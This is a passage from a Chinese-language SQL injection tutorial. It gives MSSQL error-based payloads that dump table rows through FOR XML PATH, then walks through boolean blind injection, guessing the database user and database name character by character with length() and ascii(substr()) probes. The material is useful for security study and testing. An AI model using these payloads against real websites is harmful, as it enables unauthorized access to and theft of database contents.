 ![](http://image.ixysec.com/image/sql/sql079.png)

查询内容：
```
逐条爆指定表的所有字段的数据（只限于mssql2005及以上版本）：
    and 1=(select top 1 * from 指定数据库..指定表名 where排除条件 FOR XML PATH(''))--
一次性爆N条所有字段的数据（只限于mssql2005及以上版本）：
    and 1=(select top N * from 指定数据库..指定表名 FOR XML PATH(''))--
```
![](http://image.ixysec.com/image/sql/sql080.png)


#### 盲注-基于布尔的盲注

在一些站点隐藏了错误信息的情况下，联合查询以及报错注入的方法均无法注入出数据的时候，需要用到盲注的方法来进行注入。

基于布尔的盲注是根据页面差来进行判断注入和数据注入的。在存在注入的页面输入and (true)则返回页面1；输入and (false)则返回页面2，而页面1和页面2有差别，常见的情况页面1是正常页面，页面2是错误页面

基于布尔盲注的过程：
判断盲注
```
and 1=1 
and 1=2
```
返回页面不相同。

![](http://image.ixysec.com/image/sql/sql081.png)

猜解当前数据库用户名

第一步：判断当前数据库用户名的长度(以便逐位猜解用户名)

```
and (select length(user()))=长度   //也可以使用大于号>、小于号< 更快的判断
```
![](http://image.ixysec.com/image/sql/sql082.png)

第二步：逐位猜解当前数据库用户名

```
and (select ascii(substr(user(),位数,1)))=ascii码   //substr()是字符串截取函数  substr('abc',2,1)的结果是'b'   ascii()返回字符的ascii码值
```

![](http://image.ixysec.com/image/sql/sql083.png)

判断用户名的第一位ascii码为114，而114代表的就是小写字母`r`。
![](http://image.ixysec.com/image/sql/sql084.png)

依次猜解其他位数字符的ascii码，最后对照表还原成字符。

猜解当前数据库名
第一步：判断当前数据库的长度(以便逐位猜解数据库名)

```
and (select length(database()))=长度
```
![](http://image.ixysec.com/image/sql/sql085.png)
